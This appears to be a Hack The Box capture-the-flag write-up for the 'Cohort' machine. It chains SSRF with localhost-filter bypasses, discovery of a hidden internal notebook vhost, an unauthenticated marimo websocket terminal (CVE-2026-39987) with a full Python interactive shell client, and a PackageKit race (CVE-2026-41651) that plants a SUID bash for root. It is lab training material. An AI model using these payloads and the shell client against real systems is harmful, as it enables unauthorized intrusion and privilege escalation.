








# Cohort - HTB Writeup

## PART ONE: USER

Let's begin with an nmap scan:



Port 22, 80 and 443 open, 137 filtered (netbios-ns, probably nothing since it's filtered). Nothing crazy, let's go have a look at the website `cohort.htb`.

It's "Cohort Analytics", some kind of subscription/retention analytics platform. Just navigating around the portal (`portal.html`) I stumble on a feature that lets you validate/preview a data source URL, which hits `/api/validate` in the background. Sounds like a classic SSRF candidate, let's poke at it.

```json
POST /api/validate HTTP/1.1
Host: cohort.htb
...
{
  "url":"http://0.0.0.0",
  "format":"csv"
}
```

`localhost` and `127.0.0.1` are probably filtered, but `0.0.0.0` isn't. And indeed:



`fetched_status: 200` and the preview shows... the exact same Cohort Analytics front page. So `0.0.0.0` loops back to the box itself, confirming the SSRF. Nice.

Now let's find out what's listening internally. Throw the `url` field into Burp Intruder and sweep `http://0.0.0.0:§PORT§` over a port list:



Ports `80`, `443`, `5000` and `8888` all answer `200`, with different content lengths meaning different services behind each. `5000` and `8888` are the interesting ones (80/443 are just the public site again).

Fetching `8888` through the SSRF:

```json
{"url":"http://0.0.0.0:8888","format":"csv"}
```



`<title>marimo</title>` and a login form asking for an "Access Token / Password". [marimo](https://github.com/marimo-team/marimo) is a reactive Python notebook. So there's a notebook server sitting on the loopback interface of the box, password protected from a normal request... but this whole thing is reachable only through the SSRF right now.

Let's see if there's more info leaking internally. I tried `http://127.1/status` (another `127.0.0.1` filter bypass, decimal-shorthand IP this time) through the same SSRF:

```json
{"url":"http://127.1/status"}
```



Jackpot:

```json
{
  "service":"cohort-edge",
  "status":"ok",
  "generated_by":"nginx",
  "upstreams":[
    {"name":"marketing","host":"cohort.htb","root":"/var/www/cohort"},
    {"name":"insights-api","host":"cohort.htb","path":"/api/","target":"127.0.0.1:5000"},
    {"name":"notebooks","host":"nb-1be3782a8afd3ad5.cohort.htb","target":"127.0.0.1:8888","note":"internal analyst workspace, not for external use"}
  ]
}
```

This is the internal nginx routing table for the edge server. The `notebooks` upstream tells me `127.0.0.1:8888` (the marimo instance I found earlier) is actually reachable from the outside through a dedicated virtual host: `nb-1be3782a8afd3ad5.cohort.htb`. It's just not linked anywhere and marked "not for external use" — but nginx will happily route to it if I hit it with the right `Host` header. No more need for the SSRF, I can talk to marimo directly now.

So: [`https://nb-1be3782a8afd3ad5.cohort.htb/`](https://nb-1be3782a8afd3ad5.cohort.htb/) — same login page, still needs a token/password to use the notebook UI. But marimo has a known pre-auth vuln: [CVE-2026-39987](https://github.com/keraattin/CVE-2026-39987). The `/terminal/ws` websocket endpoint (marimo's built-in terminal) only checks the running mode/platform support before accepting the connection — unlike every other websocket route, it never calls `validate_auth()`. Meaning I can open a PTY over that websocket with zero credentials.

Quick PoC:



Connect straight to `ws://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws`, drain the initial output, then send a shell command — no auth token, no password, nothing. I sent a reverse shell one-liner and caught a callback.

To make it comfortable to work in, I wrapped it into a small interactive client instead of one-shot commands (raw tty passthrough so Ctrl-C, arrow keys, etc. all work through the websocket):

```python
#!/usr/bin/env python3
import ssl, sys, tty, termios, threading, websocket

URL = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"

def recv_loop(ws):
    while True:
        try:
            data = ws.recv()
            if data is None:
                break
            if isinstance(data, bytes):
                sys.stdout.buffer.write(data); sys.stdout.buffer.flush()
            else:
                sys.stdout.write(data); sys.stdout.flush()
        except Exception:
            break

def send_loop(ws):
    fd = sys.stdin.fileno()
    old = termios.tcgetattr(fd)
    try:
        tty.setraw(fd)
        while True:
            ch = sys.stdin.read(1)
            if not ch:
                break
            ws.send(ch)
    finally:
        termios.tcsetattr(fd, termios.TCSADRAIN, old)

def main():
    ws = websocket.WebSocket(sslopt={"cert_reqs": ssl.CERT_NONE, "check_hostname": False})
    ws.connect(URL)
    t = threading.Thread(target=recv_loop, args=(ws,), daemon=True)
    t.start()
    try:
        send_loop(ws)
    except KeyboardInterrupt:
        pass
    finally:
        ws.close()

if __name__ == "__main__":
    main()
```

Land as `marimo`, and grab user.txt.

## PART TWO: ROOT

Ran `linpeas.sh` from the `marimo` shell. Among the findings, the installed PackageKit version stood out:



`PackageKit 1.2.8-2ubuntu1.2`, below Ubuntu 24.04's fixed version `1.2.8-2ubuntu1.5` — vulnerable to [CVE-2026-41651](https://github.com/Lutfifakee-Project/CVE-2026-41651), aka "Pack2TheRoot".

It's a TOCTOU race in PackageKit's D-Bus transaction handling: a transaction can be created in `SIMULATE` mode (harmless, no polkit prompt needed) and then, by racing a second `InstallFiles` call before the scheduler dispatches it, the flags get overwritten to a real (`NONE`) install — bypassing the polkit authorization check entirely and letting an unprivileged user install an arbitrary `.deb` as root.

Ran the exploit:



It builds two packages (a `dummy` one used to win the race, and a `payload` one containing a SUID bash), fires `InstallFiles(SIMULATE)` and `InstallFiles(NONE)` asynchronously back to back, then polls until the payload lands. `PK error 48` (auth failure) is just the legitimate/simulated transaction being rejected — the race already won on the payload side by the time that error comes back. A SUID bash shows up in `/tmp`, and spawning it gives `euid=0(root)` while still `uid=1000(marimo)`.

Root.
